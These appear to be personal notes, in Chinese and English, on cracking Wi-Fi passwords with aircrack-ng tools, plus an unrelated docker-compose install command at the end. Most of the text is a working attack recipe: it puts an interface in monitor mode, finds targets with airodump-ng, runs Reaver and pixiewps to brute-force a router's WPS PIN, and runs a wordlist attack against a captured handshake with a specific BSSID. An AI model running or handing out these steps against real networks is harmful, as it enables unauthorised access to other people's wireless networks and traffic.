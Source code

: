 ## aircrack 

- aircrack-ng 无线密码破解
- aireplay-ng 流量生成和客户端认证
- airodump-ng 数据包捕获
- airbase-ng  虚假接入点配置
- airmon-ng 启动监听
## reaver &pixie DIst Attack

1. airmon-ng start wlan0
if get any error, try following solution:

    1. Put the device in Monitor mode Airmon-ng start wlan0
    2. A monitoring interface will be started on wlan0mon
    3. Use iwconfig to check if the interface MODE is in managed mode, if so then change it to monitor instead of managed with the following commands:
    ifconfig wlan0mon down
    iwconfig wlan0mon mode monitor
    ifconfig wlan0mon up
    1. iwconfig check if the mode is monitoring mode now
    2. airodump-ng wlan0mon

2. Start airodump-ng to get the BSSID, MAC address and channel of our target.

`airodump-ng -i wlan0mon`

3. Now pick the target and use the BSSID and the channel for Reaver:
We need the PKE, PKR, e-hash 1 & e-hash 2, E-nonce / R-nonce and the authkey from Reaver to use for pixiewps.

   `Reaver -i wlan0mon -b [BSSID] -vv -S -c [AP channel]`

4. Now start pixiewps with the following arguments:
   ![](wlan%20attack/2018-10-06-15-18-14.png)
    Components:
    –E-Hash1 is a hash in which we brute force the first half of the WPS PIN.

    –E-Hash2 is a hash in which we brute force the second half of the WPS PIN.

    –HMAC is a function that hashes all the data in parenthesis. The function is HMAC-SHA-256.

    –PSK1 is the first half of the router’s WPS PIN (10,000 possibilities)

    –PSK2 is the second half of the router’s WPS PIN (1,000 or 10,000 possibilities depending if we want to compute the checksum. We just do 10,000 because it makes no time difference and it’s just easier.)

    –PKE is the Public Key of the Enrollee (used to verify the legitimacy of a WPS exchange and prevent replays.)

    –PKR is the Public Key of the Registrar (used to verify the legitimacy of a WPS exchange and prevent replays.)
## mac 下破解Wi-Fi

* 安装`aircrack-ng`
* 创建airport连接
* sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/local/bin/airport
* `/airport -s` scan wifi
* `airport card sniff 信道`
* 破解 aircrack-ng -w password.txt -b c8:3a:35:30:3e:c8 /tmp/*.cap

sudo curl -L https://github.com/docker/compose/releases/download/1.17.1/docker-compose-`uname -s`-`uname -m` -o /usr/local/bin/docker-compose
